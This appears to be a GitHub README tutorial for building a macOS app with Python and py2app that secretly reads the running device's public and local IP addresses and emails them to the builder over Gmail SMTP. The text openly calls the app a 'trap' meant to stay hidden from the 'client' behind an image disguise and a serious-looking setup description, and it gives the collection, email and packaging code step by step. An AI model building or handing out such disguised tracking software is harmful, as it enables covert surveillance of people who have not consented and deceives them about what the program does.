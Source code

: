 # <p id="UP">Do you want to create an application without interface for mac?</p>

> The idea of this application will be banal and at the same time interesting. We will receive the IP address of the device and send it to the gmail. In order for our client not to know about what is happening, I propose to hide our trap under the guise of an image taken from the Internet.

## <p align="center">Give thanks : 5168 7450 1701 5535 <a href="https://en.privatbank.ua/all-ways-to-receive-send-an-international-transfer"><img src="https://upload.wikimedia.org/wikipedia/uk/f/ff/%D0%9B%D0%BE%D0%B3%D0%BE%D1%82%D0%B8%D0%BF_%D0%9F%D1%80%D0%B8%D0%B2%D0%B0%D1%8224.png" width = "25" alt="Privat Bank UA"> </a></p>

### let's start parsing the code, which I added to a separate [__sketch.ipynb__](https://github.com/syroiezhin/console2app/blob/main/sketch.ipynb) file for your convenience.

- [X] First of all, let's start with the picture.
1. We can take it directly from the internet.
```python
from PIL import Image
from requests import get
Image.open(get("https://static.ngs.ru/news/2015/99/preview/6f3e934e7e2d0402bdf8113262ea14420b7da035_640.jpg", stream=True).raw).show()
```
2. We don't have to upload it to the app file, this is at your discretion, but we will set the icon for the application with the same image, so:
```python
from PIL import Image
Image.open("image.jpeg").show()
```
- [X] There are various packages for sending emails, but they all use __smtplib__.
```python
server = SMTP(smtp, 587)
server.starttls()
server.login(sender, application_passwords)
msg = MIMEText(mail,"html")
msg["Subject"] = subject
msg['From'] = sender
msg['To'] = destination
server.sendmail(sender, destination, msg.as_string())
```
> Be sure to create your password for your sender mail using [the link provided](https://myaccount.google.com/security#:~:text=chevron_right-,%D0%9F%D0%B0%D1%80%D0%BE%D0%BB%D1%8C%20%D0%B8%D0%B7%D0%BC%D0%B5%D0%BD%D0%B5%D0%BD,-24%20%D0%B8%D1%8E%D0%BB.%20%C2%B7%20%D0%A3%D0%BA%D1%80%D0%B0%D0%B8%D0%BD%D0%B0).
- [X] For orientation in letters, I suggest adding time.
1. As you know, many people use the __datetime__ library to get time data from a computer.
```python
from datetime import datetime
print( datetime.now().strftime("%d.%m.%Y - %H:%M:%S") )
```
2. I suggest using a more convenient way without loading extra libraries into the project.
```python
from os import popen
popen('date').read()
```
- [X] We need the __os__ library to receive a response from the terminal.
1. To get global ip:
```python
popen("curl ifconfig.me").read().strip()
```
2. To get local ip:
```python
popen("ipconfig getifaddr en0").read().strip()
```
> There are other ways to get this information, but I think this is the most elegant way.

### It remains to issue a __setup__ file to get a working application:

- [X] Install:
```python
pip install py2app
```
- [X] We go to the desired directory of the program using cd: `cd Desktop/NameFolder/FolderProject`
- [X] Make sure the required py is in your directory with the command: `ls`
- [X] Create setup.py with:
```
py2applet --make-setup nameProject.py
```
- [X] Let's analyze the changes made to the setup.py file:
1. Come up with a name for the program; specify the file of our program; we will make the entire list of additional programs, if such were used; we specify the entire list of libraries that is not included in the list of the standard library; and be sure to remember the icon.
```python
from setuptools import setup

APP_NAME = "envoy"
APP = ['agent.py']
DATA_FILES = []
OPTIONS = {
    'includes': ['PIL','smtplib','email'],
    'packages': ['PIL','smtplib','email'],
    'iconfile':'image.jpeg'
}
```
2. Now we can include [a description](https://docs.python.org/3/distutils/apiref.html) of this application to make it look serious:
```python
setup(
    app=APP,
    name=APP_NAME,
    data_files=DATA_FILES,
    setup_requires=['py2app'],
    options={'py2app': OPTIONS},

    version='1.0',
    description='scan ip',
    long_description="Sending ip to mail from a running device",

    author='@NEU3RON',
    license="Syroiezhin",
    author_email='v.syroiezhin@gmail.com',
    url="https://github.com/syroiezhin",
)
```
- [X] Сongratulations, now save the change and type the final command into the terminal of the file:
```
python3 setup.py py2app
```
- [X] In case of error "No such file or directory: ... zmq/.dylibs" you will have to reinstall first by deleting:
```
conda remove zeromq
```
- [X] ... and then install without errors getting the result after you try again (`python3 setup.py py2app`).
```
conda install zeromq
```
> 

[⇪](#UP)
